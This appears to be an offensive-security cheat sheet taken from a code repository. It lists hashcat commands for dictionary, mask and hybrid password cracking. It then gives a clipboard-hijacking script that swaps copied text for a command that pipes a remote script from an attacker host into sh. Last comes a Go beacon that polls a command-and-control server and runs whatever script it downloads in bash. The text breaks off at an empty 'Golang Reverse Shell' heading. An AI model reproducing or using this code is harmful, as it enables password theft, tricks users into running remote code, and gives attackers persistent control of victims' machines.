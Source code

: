 # Hashcat 

```
DICTIONARY ATTACK
hashcat -a 0 -m #type hash.txt
DICTIONARY + RULES ATTACK
hashcat -a 0 -m #type hash.txt
COMBINATION ATTACK
hashcat -a 1 -m #type hash.txt
MASK ATTACK
hashcat -a 3 -m #type hash.txt
HYBRID DICTIONARY + MASK
hashcat -a 6 -m #type hash.txt
HYBRID MASK + DICTIONARY
hashcat -a 7 -m #type hash.txt
dict.txt
dict.txt -r rule.txt
dict1.txt dict2.txt
?a?a?a?a?a?a
dict.txt ?a?a?a?a
?a?a?a?a dict.txt
```

# Malicious Javascript

```javascript
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\n'); e.preventDefault(); });
 </script>
 ```
# Execute Fileless Scripts in Golang

```golang
package main

import (
    "io/ioutil"
    "net/http"
    "os/exec"
    "time"
)

func main() {
    for {
        url := "http://my_command_control:8080/executeThisScript" // Download your bash script
        resp, _ := http.Get(string(url))
        defer resp.Body.Close()

        shellScriptBody, _ := ioutil.ReadAll(resp.Body) // keep in memory

        cmd := exec.Command("/bin/bash", "-c", string(shellScriptBody))
        cmd.Start()                                                     // run in background

        time.Sleep(5000) // wait for the next beaconing
    }
}
```
# Golang Reverse Shell
